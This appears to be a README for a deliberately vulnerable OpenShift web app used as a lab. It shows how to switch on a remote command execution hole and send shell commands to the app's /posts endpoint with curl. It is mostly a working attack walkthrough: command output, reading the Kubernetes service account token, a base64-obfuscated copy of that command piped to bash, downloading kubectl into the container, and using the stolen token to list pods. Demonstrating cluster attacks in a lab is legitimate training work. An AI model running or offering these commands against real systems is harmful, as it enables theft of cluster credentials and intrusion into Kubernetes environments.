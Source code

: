 ## Attacking webapp

To activate the RCE, please set the exploit env variable to true

### Activate the RCE
```
oc -n frontend set env deployment/webapp exploit=true

export cmd="ls -la"

curl -X POST -d "cmd=${cmd}" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

output: total 0
dr-xr-xr-x.   1 root root  28 Mar  8 08:50 .
dr-xr-xr-x.   1 root root  28 Mar  8 08:50 ..
dr-xr-xr-x.   2 root root   6 Aug  9  2021 afs
lrwxrwxrwx.   1 root root   7 Aug  9  2021 bin -> usr/bin
dr-xr-xr-x.   2 root root   6 Aug  9  2021 boot
drwxr-xr-x.   5 root root 360 Mar  8 08:50 dev
drwxr-xr-x.   1 root root  53 Mar  8 08:50 etc
drwxr-xr-x.   2 root root   6 Aug  9  2021 home
lrwxrwxrwx.   1 root root   7 Aug  9  2021 lib -> usr/lib
lrwxrwxrwx.   1 root root   9 Aug  9  2021 lib64 -> usr/lib64
drwxr-xr-x.   2 root root   6 Aug  9  2021 media
drwxr-xr-x.   2 root root   6 Aug  9  2021 mnt
drwxr-xr-x.   2 root root   6 Aug  9  2021 opt
dr-xr-xr-x. 229 root root   0 Mar  8 08:50 proc
dr-xr-x---.   3 root root  23 Feb 22 13:56 root
drwxr-xr-x.   1 root root  42 Mar  8 08:50 run
lrwxrwxrwx.   1 root root   8 Aug  9  2021 sbin -> usr/sbin
drwxr-xr-x.   2 root root   6 Aug  9  2021 srv
dr-xr-xr-x.  13 root root   0 Mar  1 10:33 sys
drwxrwxrwt.   2 root root   6 Aug  9  2021 tmp
drwxr-xr-x.   1 root root  17 Feb 22 13:55 usr
drwxr-xr-x.  17 root root 219 Feb 22 13:55 var
```

### Deactivate the RCE

```
oc -n frontend set env deployment/webapp exploit-

export cmd="ls -la"

curl -X POST -d "cmd=${cmd}" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

exploit is not enabled
```


export cmd='token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) && echo $token'

export cmd='echo dG9rZW49JChjYXQgL3J1bi9zZWNyZXRzL2t1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvdG9rZW4pICYmIGVjaG8gJHRva2VuCg== | base64 -d | bash -'

# Get visa-token
curl -X POST -d "cmd=cat /run/secrets/kubernetes.io/serviceaccount/token > /tmp/token" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

# Download kubectl
curl -X POST -d "cmd=curl -L -o /tmp/kubectl https://dl.k8s.io/release/v1.27.2/bin/linux/amd64/kubectl" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

# chmod +x kubectl
curl -X POST -d "cmd=chmod +x /tmp/kubectl" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

# list all pods 
curl -X POST -d "cmd=/tmp/kubectl --insecure-skip-tls-verify=true --token /tmp/token" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts
